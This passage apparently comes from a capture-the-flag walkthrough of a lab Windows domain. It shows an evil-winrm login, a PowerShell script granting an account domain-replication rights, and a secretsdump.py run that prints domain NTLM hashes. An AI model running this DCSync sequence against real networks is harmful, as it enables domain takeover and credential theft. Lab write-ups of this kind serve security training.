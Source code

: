 I could then log on via evil-winrm with the new user

```
evil-winrm -i 10.10.10.161 -u user1 -p password123!
```

I ran the commands from the referenced article which gives the target account the "Ds-Replication-Get-Changes" and "Ds-Replication-Get-Changes-All" extended rights on the domain object. This gave the account access rights that allow replication of secret domain data.

```Powershell
Import-Module ActiveDirectory
$acl = get-acl "ad:DC=htb,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=htb,DC=local"
```

Since the account now had the required permissions, secretsdump.py was run to get the domain hashes.

```
~/tools/impacket/examples/secretsdump.py "user1:password123!"@10.10.10.161
```

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...truncated...
```
